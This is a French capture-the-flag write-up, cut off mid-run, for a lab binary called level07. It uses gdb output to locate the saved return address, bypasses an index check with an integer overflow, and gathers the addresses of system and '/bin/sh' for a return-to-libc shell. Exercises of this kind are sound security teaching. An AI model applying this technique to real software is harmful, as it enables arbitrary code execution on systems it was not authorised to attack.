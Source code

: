 ```
(gdb) x/136wx $esp
0xffffd520:	0x08048d4b	0xffffd6d8	0xf7fcfac0	0xf7fdc714
0xffffd530:	0x00000098	0xffffffff	0xffffd7fc	0xffffd7a8
0xffffd540:	0x00000000	0x00000000	0x0000002a	0x00000000
0xffffd550:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000

```
Nous retrouvons notr 42 en 0xffffd548, donc le debut de notre `tableau` est en `0xffffd544`
EIP:
```
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048857 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c

```
`adresse eip -> 0xffffd70c`
`Faisons la difference entre 0xffffd70c et 0xffffd544`
0xffffd70c - 0xffffd544 = 456
456 / 4 = 114 (/4 car tableau d'int).
```
Input command: read
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully

```
`4158936339 en hexa -> F7E45513`
Cela correspond bien a l'adresse de notre `saved eip`.
Or, nous ne pouvons pas reecrire directement sur l'index 114 car c'est un multiple de 3,
mais nous savons que les int peuvent overflow ici.
Pour faire cela, nous allons prendre notre index, `114 et le multiplier par 4` ce qui egal a `456`,
or `multiplier par 4` reviens a `114 << 2` donc en binaire, 
`114 = 00000000000000000000000001110010`
`456 = 00000000000000000000000111001000`
Il y a bien un decalage de 2 bytes vers la gauche.
Donc les 2 derniers bytes (tout a gauche) ne sont pas pris en compte ici.
`10000000000000000000000001110010 = 2147483762`
Maintenant que nous avons notre index, allons recuper l'adresse de system et d'un "/bin/sh",
```
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) find __libc_start_main, +999999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
`addr system -> 0xf7e6aed0 = 4159090384`
`addr "/bin/sh" -> 0xf7f897ec = 4160264172`
Executons maintenant le code en placant l'`addr de system a l'index de 114 (2147483762)`,
et placons l'`addr de "bin/sh" a 116`, juste apres.
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
```